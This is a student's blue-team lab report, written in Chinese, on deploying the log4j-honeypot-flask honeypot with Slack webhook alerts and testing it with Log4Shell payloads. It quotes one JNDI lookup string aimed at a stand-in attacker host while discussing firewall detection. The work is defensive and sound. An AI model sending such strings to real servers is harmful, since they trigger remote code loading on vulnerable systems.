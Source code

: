 # 邪恶猎户六同盟成员之一的猎户座天龙人的个人实验报告——针对log4j2攻击进行告警的蜜罐搭建时间线过程
## 简介
- 扮演角色：蓝队成员
- 主要任务：**漏洞利用的缓解与漏洞修复**（二进制和源代码级别）
---
- Ⅰ.灵感产生
  - 让我产生要做一个蜜罐的灵感的来源是在观看老师的视频的时候看到下面的这张图：
  
  ![](../imgs/蜜罐/log4shell-detect-1.jpeg)

  - 其中第一步提到要可以利用网络防火墙进行深度包检测来把攻击者拦截在第一步，让其“进不来”。于是在和同伙yt同学讨论之后决定交给他来实现（当时我正在做漏洞修复）。但是不久之后等到同伙的防火墙有了一点实现的时候，我听了其思路后突然想到。为什么深度包检测的时候，这个防火墙非要去检测`${jndi:ladp://evil.xa/x}`这个串不可呢？说到底都是在`CVE-2021-44228`漏洞发现之后才产生的防范措施（当然这里可能说错了，也许更早的时候就开始防范这个攻击了，但是不影响这种防范需要一个“起始点”或者说“最初的动机”）。于是我又开始思考，在真实情况下，没有人来告诉我维护的项目中有哪个包存在哪个漏洞，又会被攻击者用何种方式利用，在这种情况下我如何及时发现攻击并把攻击相关的串写进网络防火墙从而实现阻断呢？这时灵感迸发，突然回想起上上学期令我印象深刻的蜜罐实验（虽然当时完成的内容很少，但是写实验报告的时候思考了很多，所以记忆犹新）。
  - 于是我产生了一个大胆的想法：何不部署蜜罐呢？既可以大大得降低我们的服务器被攻击者第一个攻击的可能性，又能及时捕获攻击者的攻击行为、攻击者的个人信息等，及时更新网络防火墙的过滤规则从而打造一个防御的铜墙铁壁。同时蜜罐收集的信息也能给我们在漏洞修复的时候提供思路，一箭三雕，岂不美哉？

  - 我和同伙分享这个思路之后先去继续完成我的漏洞修复工作，让他在空闲之余先着手研究一下。但是据他说没有成功部署。于是在漏洞修复的工作完成之后我又自己动手尝试了一下部署蜜罐。以下就是这个蜜罐部署和捕获攻击者信息的时间线流程

- Ⅱ.log4j-honeypot-flask蜜罐的部署——“捕灵网计划”
  - 首先是同伙分享给我了一个关于`log4j`攻击防护的低交互蜜罐项目：[探秘内部网络防护新利器：log4j-honeypot-flask](https://blog.csdn.net/gitblog_00043/article/details/139644958)以及其项目地址[log4j-honeypot-flask](https://github.com/BinaryDefense/log4j-honeypot-flask)。于是我立即开始着手部署准备边做边学。
  - 先将项目仓库拉取到本地
  
  ![](../imgs/蜜罐/HP_1屏幕截图%202024-07-13%20203044.png)

  - 然后按照`REAMME`进行`build`，但是在拉取镜像的时候出现了一个错误。`python-dev`这个包证书失效没有了，取代它的是`python-dev-is-pyhon3`。

  ![](../imgs/蜜罐/HP_2屏幕截图%202024-07-13%20203440.png)

  - 我本机`apt search`发现这个包确实还在的时候，便修改了`Dockerfile`来下载`python-dev-is-python3`这个包，拉取镜像成功

  ![](../imgs/蜜罐/HP_3屏幕截图%202024-07-13%20204210.png)
  ![](../imgs/蜜罐/HP_4屏幕截图%202024-07-13%20204300.png)
  ![](../imgs/蜜罐/HP_5屏幕截图%202024-07-13%20205942.png)

  - 接下来要运行镜像容器了。看到需要一个参数`WebHook_Url`。我有点懵了，不太懂是啥。看了一下项目介绍，说是放我们用来接收通知的`WebHookUrl`。同时提供了三个参考的平台`Slack`、`Teams`、`Mattermost`。
  
  ![](../imgs/蜜罐/HP_6屏幕截图%202024-07-13%20232917.png)

  - 由于不知道`Webhook`是什么，我去网上查了一下。在阅读这篇[轻量的 WebHook 工具：歪脖虎克](https://soulteary.com/2024/04/06/lightweight-webhook-tool.html)之后。我明白了`Webhook`大概是个啥，同时也得知了这个“钩子”用的比较多的地方是自动化部署代码。但是今天我们要实现的是"incoming webhook"，就不去详细展开说了。我注册了[Slack](https://app.slack.com/)平台，并在[Slack Api](https://api.slack.com/)中申请`App`。

  ![](../imgs/蜜罐/HP_7屏幕截图%202024-07-13%20233104.png)
  ![](../imgs/蜜罐/HP_8屏幕截图%202024-07-13%20233143.png)
  - 申请完成后可以用测试用例来测试一下是否成功
  
  ![](../imgs/蜜罐/HP_9屏幕截图%202024-07-13%20233339.png)
  ![](../imgs/蜜罐/HP_10屏幕截图%202024-07-14%20001218.png)

  - 可以看到成功了。
  
  ![](../imgs/蜜罐/HP_11屏幕截图%202024-07-14%20001251.png)

  - 接下来把`WEBHOOK_URL`填入参数，端口映射为`8080->8080`，启动容器。
  
  ![](../imgs/蜜罐/HP_12屏幕截图%202024-07-14%20001608.png)

  - 看到成功跑起来了。
  
  ![](../imgs/蜜罐/HP_13屏幕截图%202024-07-14%20015608.png)

  - 接下来为了构造`payload`来进行测试，我先阅读了官方的`app.py`脚本。脚本写的非常清晰简洁，连我这种代码白痴都能看懂。
  
  ![](../imgs/蜜罐/HP_14屏幕截图%202024-07-14%20121446.png)

  - 然后我就构造`payload`进行攻击了。本来我是又开了一台虚拟机准备把那个当成攻击机使用。但是发生了意外：这个靶机可以`ping`通网关路由和那台虚拟机，那台虚拟机也能`ping`通网关路由，但是就是`ping`不同这台靶机。于是我只好在这台靶机上发送`payload`准备自欺欺人。但是出现了一个状况，靶机构造好的`payload`一旦发送出去，虽然能被蜜罐成功捕获和识别，但是查看蜜罐日志（明明截图了，现在找不到了），发现所有`payload`带的识别串都莫名其妙消失了，被还原成标准的`POST`格式发送给了蜜罐。因此蜜罐虽然识别了，但是没有识别出威胁。
  
  ![](../imgs/蜜罐/HP_ERROR屏幕截图%202024-07-14%20015649.png)

  - 然后我有如神助，想到了`cmd`。立马进入`cmd`进行尝试。结果直接成功！
  
  ![](../imgs/蜜罐/HP_15屏幕截图%202024-07-14%20020338.png)
  ![](../imgs/蜜罐/HP_16屏幕截图%202024-07-14%20020357.png)

  - 不过我还是没搞清楚为什么在靶机上发送`payload`，`payload`的内容就会被重构。
  - 实验成功之后说明该蜜罐可以及时得把关于`log4j`的攻击反馈给护网人员。在真实的情况下，如果要实现我们一开始的目标，我们可以直接修改`app.py`中解析`HTTP`请求的函数，使得收到`HTTP`请求就立刻把请求报告给`webhook`（因为这是一个蜜罐环境，能在蜜罐产生流量交互的基本可以排除是人畜无害的普通用户了，大概率是别有用心的攻击者），这样就可以对攻击做出第一时间的响应，也能为漏洞修复争取非常宝贵的时间！






















